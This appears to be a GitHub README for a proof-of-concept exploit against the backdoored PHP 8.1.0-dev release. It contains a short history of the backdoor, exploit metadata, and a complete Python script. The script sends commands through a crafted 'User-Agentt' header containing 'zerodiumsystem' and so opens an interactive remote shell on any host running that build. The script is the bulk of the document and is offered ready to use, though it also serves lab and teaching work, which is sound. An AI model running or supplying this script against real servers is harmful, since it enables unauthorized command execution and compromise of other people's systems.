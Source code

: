 # PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![docs/logo_php81.png](docs/logo_php81.png "docs/logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

_Read full article: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/_


* * * 

## POC Script

This short exploit script uses the backdoor to provide a pseudo system shell on the host.

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:**[https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)            
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



The following exploit uses the backdoor to provide a pseudo system shell on the host.


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

